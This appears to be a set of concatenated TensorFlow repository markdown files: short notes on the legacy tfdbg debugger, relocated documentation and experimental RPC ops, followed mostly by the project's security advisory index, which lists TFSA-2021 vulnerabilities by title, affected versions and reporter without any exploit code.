    [model saving/loading and checkpointing](https://www.tensorflow.org/tutorials/keras/save_and_load)

## Legacy API for TensorFlow 1.x

TensorFlow 1.x's execution paradigm is different from that of TensorFlow v2; it
is based on the deprecated
[`tf.Session`](https://www.tensorflow.org/api_docs/python/tf/compat/v1/Session)
If you are using TensorFlow 1.x, you can use the deprecated
`tf_debug.LocalCLIDebugWrapperSession` wrapper for `tf.Session`
to inspect tensor values and other types of debug information in a
terminal-based command-line interface. For details, see
[this blog post](https://developers.googleblog.com/2017/02/debug-tensorflow-models-with-tfdbg.html).
Hi, there!

The documentation of **TensorFlow Debugger (tfdbg)** has moved.

See the source version at
[this new location](../../../docs_src/guide/debugger.md).

See the public website version at
[https://www.tensorflow.org/guide/debugger](https://www.tensorflow.org/guide/debugger).
## Experimental TensorFlow RPC Ops.

This directory contains kernels for RPC Ops in TensorFlow distribute package.


Note*: These ops may move to a separate repository in the future.
# This directory has moved

The new location is: https://github.com/tensorflow/docs/
# TensorFlow Security Advisories

C++ fuzzing: [](https://bugs.chromium.org/p/oss-fuzz/issues/list?sort=-opened&can=1&q=proj:tensorflow)

Python fuzzing: [](https://bugs.chromium.org/p/oss-fuzz/issues/list?sort=-opened&can=1&q=proj:tensorflow-py)

We regularly publish security advisories about using TensorFlow.

*Note*: In conjunction with these security advisories, we strongly encourage
TensorFlow users to read and understand TensorFlow's security model as outlined
in
[SECURITY.md](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md).

| Advisory Number                                                                                                     | Type                                                                               | Versions affected   | Reported by                                                         | Additional Information
| ------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- | :-----------------: | ------------------------------------------------------------------- | --------------------------------------------------------------
| [TFSA-2021-200](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-200.md) | Crash in `tf.math.segment_*` operations                                            | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46888)
| [TFSA-2021-199](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-199.md) | Crash in `max_pool3d` when size argument is 0 or negative                          | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/51936)
| [TFSA-2021-198](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-198.md) | Crashes due to overflow and `CHECK`-fail in ops with large tensor shapes           | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46890), [issue](https://github.com/tensorflow/tensorflow/issues/51618), [issue](https://github.com/tensorflow/tensorflow/issues/51908)
| [TFSA-2021-197](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-197.md) | Incomplete validation in `tf.summary.create_file_writer`                           | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46909)
| [TFSA-2021-196](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-196.md) | Overflow/crash in `tf.tile` when tiling tensor is large                            | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46911)
| [TFSA-2021-195](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-195.md) | Overflow/crash in `tf.image.resize` when size is large                             | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46914)
| [TFSA-2021-194](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-194.md) | Overflow/crash in `tf.range`                                                       | < 2.7.0             | (Reported on GitHub)                                                | [issue](https://github.com/tensorflow/tensorflow/issues/46912), [issue](https://github.com/tensorflow/tensorflow/issues/46899), [issue](https://github.com/tensorflow/tensorflow/issues/46889)
| [TFSA-2021-193](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-193.md) | Missing validation during checkpoint loading                                       | < 2.7.0             | (discovered internally)                                             |
| [TFSA-2021-192](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-192.md) | Uninitialized access in `EinsumHelper::ParseEquation`                              | < 2.7.0             | (discovered internally)                                             |
| [TFSA-2021-191](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-191.md) | Segfault while copying constant resource tensor                                    | < 2.7.0             | (discovered internally)                                             |
| [TFSA-2021-190](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-190.md) | Incomplete validation of shapes in multiple TF ops                                 | < 2.7.0             | (discovered internally)                                             |
| [TFSA-2021-189](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-189.md) | Incomplete validation in boosted trees code                                        | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-188](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-188.md) | Heap OOB read in `tf.raw_ops.SparseCountSparseOutput`                              | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-187](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-187.md) | FPE in convolutions with zero size filters                                         | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-186](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-186.md) | FPE in `ParallelConcat`                                                            | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-185](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-185.md) | Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops                      | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-184](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-184.md) | Heap OOB in shape inference for `QuantizeV2`                                       | >= 2.6.0, < 2.7.0   | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-183](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-183.md) | Heap OOB read in `tf.ragged.cross`                                                 | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-182](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-182.md) | Reference binding to `nullptr` in `tf.ragged.cross`                                | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-181](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-181.md) | Null pointer exception in `DeserializeSparse`                                      | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-180](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-180.md) | Deadlock in mutually recursive `tf.function` objects                               | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-179](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-179.md) | Heap buffer overflow in `Transpose`                                                | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-178](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-178.md) | Undefined behavior via `nullptr` reference binding in sparse matrix multiplication | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-177](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-177.md) | Use after free / memory leak in `CollectiveReduceV2`                               | >= 2.6.0, < 2.7.0   | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-176](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-176.md) | Integer division by 0 in `tf.raw_ops.AllToAll`                                     | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-175](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-175.md) | Null pointer exception when `Exit` node is not preceded by `Enter` op              | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-174](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-174.md) | Access to invalid memory during shape inference in `Cudnn*` ops                    | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-173](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-173.md) | Segfault due to negative splits in `SplitV`                                        | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-172](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-172.md) | `SparseFillEmptyRows` heap OOB                                                     | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-171](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-171.md) | Heap OOB in `SparseBinCount`                                                       | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-170](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-170.md) | Arbitrary memory read in `ImmutableConst`                                          | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-169](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-169.md) | Heap OOB in `FusedBatchNorm` kernels                                               | < 2.7.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-168](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-168.md) | A use of uninitialized value vulnerability in Tensorflow                           | < 2.7.0             | Qian Feng from Baidu Security Team                                  |
| [TFSA-2021-167](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-167.md) | Code injection in `saved_model_cli`                                                | < 2.7.0             | Omer Kaspi from Vdoo                                                |
| [TFSA-2021-166](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-166.md) | Use after free and segfault in shape inference functions                           | < 2.6.0             | (discovered internally)                                             |
| [TFSA-2021-165](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-165.md) | Segfault on strings tensors with mismatched dimensions, due to Go code             | >=2.5.0, < 2.6.0    | (Reported on GitHub)                                                | [PR](https://github.com/tensorflow/tensorflow/pull/50508)
| [TFSA-2021-164](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-164.md) | FPE in LSH in TFLite                                                               | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-163](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-163.md) | Null pointer dereference in TFLite MLIR optimizations                              | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-162](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-162.md) | Null pointer dereference in TFLite                                                 | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-161](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-161.md) | Heap OOB in TFLite's `Gather*` implementations                                     | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-160](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-160.md) | Heap OOB in TFLite                                                                 | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-159](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-159.md) | Infinite loop in TFLite                                                            | == 2.6.0            | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-158](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-158.md) | FPE in TFLite pooling operations                                                   | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-157](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-157.md) | FPE in TFLite division operations                                                  | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-156](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-156.md) | Use of unitialized value in TFLite                                                 | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-155](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-155.md) | NPE in TFLite                                                                      | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-154](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-154.md) | Division by zero in TFLite                                                         | < 2.6.0             | Aivul Team from Qihoo 360, Yakun Zhang of Baidu Security            |
| [TFSA-2021-153](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-153.md) | Heap OOB in nested `tf.map_fn` with `RaggedTensor`s                                | < 2.6.0             | Haris Sahovic                                                       |
| [TFSA-2021-152](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-152.md) | Arbitrary code execution due to YAML deserialization                               | < 2.6.0             | Arjun Shibu                                                         |
| [TFSA-2021-151](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-151.md) | Missing validation in shape inference for `Dequantize`                             | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-150](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-150.md) | Division by 0 in most convolution operators                                        | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-149](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-149.md) | Reference binding to nullptr in shape inference                                    | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-148](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-148.md) | Incomplete validation in `MaxPoolGrad`                                             | < 2.6.0             | Yakun Zhang of Baidu Security                                       |
| [TFSA-2021-147](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-147.md) | `CHECK`-fail in `MapStage`                                                         | < 2.6.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-146](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-146.md) | Heap OOB in `SdcaOptimizerV2`                                                      | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-145](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-145.md) | Reference binding to nullptr in map operations                                     | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-144](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-144.md) | Heap OOB in `UpperBound` and `LowerBound`                                          | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-143](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-143.md) | Crash in NMS ops caused by integer conversion to unsigned                          | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-142](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-142.md) | FPE in `tf.raw_ops.UnravelIndex`                                                   | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-141](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-141.md) | Reference binding to nullptr in unicode encoding                                   | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-140](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-140.md) | Reference binding to nullptr in `RaggedTensorToVariant`                            | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-139](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-139.md) | Incomplete validation in MKL requantization                                        | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-138](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-138.md) | Incomplete validation in `QuantizeV2`                                              | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-137](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-137.md) | Heap OOB in boosted trees                                                          | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-136](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-136.md) | Reference binding to nullptr in boosted trees                                      | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-135](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-135.md) | Crash caused by integer conversion to unsigned                                     | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-134](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-134.md) | Division by 0 in inplace operations                                                | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-133](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-133.md) | Reference binding to nullptr and heap OOB in binary cwise ops                      | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-132](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-132.md) | Reference binding to nullptr in `MatrixSetDiagV*` ops                              | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-131](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-131.md) | Reference binding to nullptr in `MatrixDiagV*` ops                                 | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-130](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-130.md) | Reference binding to nullptr in `RaggedTensorToSparse`                             | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-129](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-129.md) | Heap OOB in `ResourceScatterUpdate`                                                | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-128](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-128.md) | Heap OOB and CHECK fail in `ResourceGather`                                        | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-127](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-127.md) | Division by 0 in `ResourceGather`                                                  | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-126](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-126.md) | Use after free in boosted trees creation                                           | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-125](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-125.md) | Heap buffer overflow in `FractionalAvgPoolGrad`                                    | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-124](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-124.md) | Segfault and heap buffer overflow in `{Experimental,}DatasetToTFRecord`            | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-123](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-123.md) | Null pointer dereference in `UncompressElement`                                    | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-122](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-122.md) | Incorrect validation of `SaveV2` inputs                                            | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-121](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-121.md) | Null pointer dereference in `SparseTensorSliceDataset`                             | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-120](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-120.md) | Bad alloc in `StringNGrams` caused by integer conversion                           | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-119](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-119.md) | Integer overflow due to conversion to unsigned                                     | >=2.4.0, < 2.6.0    | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-118](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-118.md) | Null pointer dereference in `MatrixDiagPartOp`                                     | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-117](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-117.md) | `std::abort` raised from `TensorListReserve`                                       | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-116](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-116.md) | Heap OOB in `RaggedGather`                                                         | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-115](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-115.md) | Division by 0 in `ResourceScatterDiv`                                              | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-114](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-114.md) | Integer division by 0 in sparse reshaping                                          | >=2.5.0, < 2.6.0    | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-113](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-113.md) | Null pointer dereference and heap OOB read in operations restoring tensors         | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-112](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-112.md) | Null pointer dereference in `RaggedTensorToTensor`                                 | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-111](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-111.md) | Null pointer dereference in `CompressElement`                                      | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-110](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-110.md) | Floating point exception in `SparseDenseCwiseDiv`                                  | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-109](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-109.md) | Heap out of bounds access in sparse reduction operations                           | < 2.6.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-108](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-108.md) | Segfault in `tf.raw_ops.ImmutableConst`                                            | < 2.5.0             | (discovered internally)                                             |
| [TFSA-2021-107](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-107.md) | Segfault in `tf.raw_ops.SparseCountSparseOutput`                                   | < 2.5.0             | (discovered internally)                                             |
| [TFSA-2021-106](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-106.md) | Crash in `tf.strings.substr` due to `CHECK`-fail                                   | < 2.5.0             | (Reported on GitHub)                                                | [issue report](https://github.com/tensorflow/tensorflow/issues/46900)
| [TFSA-2021-105](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-105.md) | Crash in `tf.transpose` with complex inputs                                        | < 2.5.0             | (Reported on GitHub)                                                | [issue report](https://github.com/tensorflow/tensorflow/issues/46891)
| [TFSA-2021-104](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-104.md) | Null dereference in Grappler's `TrySimplify`                                       | < 2.5.0             | (discovered internally)                                             |
| [TFSA-2021-103](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-103.md) | Stack overflow in `ParseAttrValue` with nested tensors                             | < 2.5.0             | (discovered internally)                                             |
| [TFSA-2021-102](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-102.md) | Interpreter crash from `tf.io.decode_raw`                                          | < 2.5.0             | (discovered internally)                                             |
| [TFSA-2021-101](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-101.md) | Incomplete validation in `tf.raw_ops.CTCLoss`                                      | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-100](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-100.md) | Heap buffer overflow in `BandedTriangularSolve`                                    | < 2.5.0             | Ye Zhang and Yakun Zhang of Baidu X-Team                            |
| [TFSA-2021-099](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-099.md) | Invalid validation in `QuantizeAndDequantizeV2`                                    | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-098](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-098.md) | Incomplete validation in `SparseReshape`                                           | >=2.3.0, < 2.5.0    | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-097](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-097.md) | Incomplete validation in `SparseSparseMinimum`                                     | < 2.5.0             | Ying Wang and Yakun Zhang of Baidu X-Team                           |
| [TFSA-2021-096](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-096.md) | Incomplete validation in `SparseAdd`                                               | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-095](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-095.md) | Heap OOB and null pointer dereference in `RaggedTensorToTensor`                    | < 2.5.0             | Yakun Zhang and Ying Wang of Baidu X-Team                           |
| [TFSA-2021-094](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-094.md) | Heap OOB read in TFLite                                                            | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-093](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-093.md) | Heap OOB write in TFLite                                                           | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-092](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-092.md) | Integer overflow in TFLite memory allocation                                       | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-091](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-091.md) | Integer overflow in TFLite concatenation                                           | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-090](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-090.md) | Division by zero in TFLite's implementation of hashtable lookup                    | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-089](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-089.md) | Division by zero in TFLite's implementation of `DepthwiseConv`                     | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-088](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-088.md) | Division by zero in TFLite's implementation of `OneHot`                            | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-087](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-087.md) | Division by zero in TFLite's implementation of `Split`                             | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-086](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-086.md) | Division by zero in TFLite's implementation of `SVDF`                              | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-085](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-085.md) | Division by zero in TFLite's implementation of `SpaceToBatchNd`                    | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-084](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-084.md) | Division by zero in TFLite's implementation of `BatchToSpaceNd`                    | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-083](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-083.md) | Division by zero in TFLite's implementation of `EmbeddingLookup`                   | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-082](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-082.md) | Division by zero in TFLite's convolution code                                      | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-081](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-081.md) | Division by zero in TFLite's implementation of `DepthToSpace`                      | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-080](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-080.md) | Stack overflow due to looping TFLite subgraph                                      | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-079](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-079.md) | Null pointer dereference in TFLite's `Reshape` operator                            | < 2.5.0             | Aivul Team from Qihoo 360                                           |
| [TFSA-2021-078](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-078.md) | Heap OOB read in TFLite's implementation of `Minimum` or `Maximum`                 | < 2.5.0             | Aivul Team from Qihoo 360                                           |
